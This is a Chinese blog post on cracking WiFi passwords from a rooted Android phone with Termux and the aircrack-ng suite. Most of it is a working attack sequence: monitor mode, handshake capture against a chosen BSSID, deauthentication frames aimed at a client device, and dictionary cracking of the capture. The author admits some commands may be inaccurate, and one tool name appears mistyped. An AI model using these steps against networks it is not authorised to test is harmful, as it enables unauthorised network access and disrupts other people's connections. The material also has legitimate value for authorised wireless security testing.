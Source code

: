 ```yaml
---
tags: [网络安全, WiFi, Android, Termux, aircrack-ng]
title: 使用安卓手机破解 WiFi
last_modified_at: 2022-8-13
---
```


## 起因

[这位大佬的博客](https://rainchan.win/2021/08/09/%E4%B8%80%E5%8A%A0wifi%E5%97%85%E6%8E%A2%E5%8A%9F%E8%83%BD%E8%A7%A3%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8)讲述了一个使用安卓手机抓取 WIFI 数据包的经历，我想用手里的*红米 K30 5G*与*小米 5*复现，于是有了这篇博文

以下内容均在*MIUI 12.5，安卓 10 的 红米 K30 5G*上完整复现，在此大概做个记录

_注意：执行以下操作需要手机获得 root 权限。_

## 正文

> `<>`表示需要根据实际情况更改的内容

```sh
pkg install wireless-tools iw tcpdump aircrack-ng ethtool pciutils -y # 有一些是不必要的，可以自行鉴别
# 进入 monitor 模式，抓取数据包并破解
# 此处的命令不一定准确，具体可以`aircrack-ng`为关键词自行搜索教程
tsu
airmon-ng check kill
airmon-ng start wlan0
airodump-ng wlan0
airodump -w <filenamePrefix> -c <channel> --bssid <bssid> wlan0 --ignore-negative-one
aireplay-ng -0 0 -a <bssid> -c <clientMac> --ignore-negative-one # 有发送数据包的输出，但被攻击端并未断开连接
aircrack-ng <filenamePrefix>-<xx>.cap -w <dictionaryPath>
```

```sh
# 退出
airmon-ng stop wlan0
```

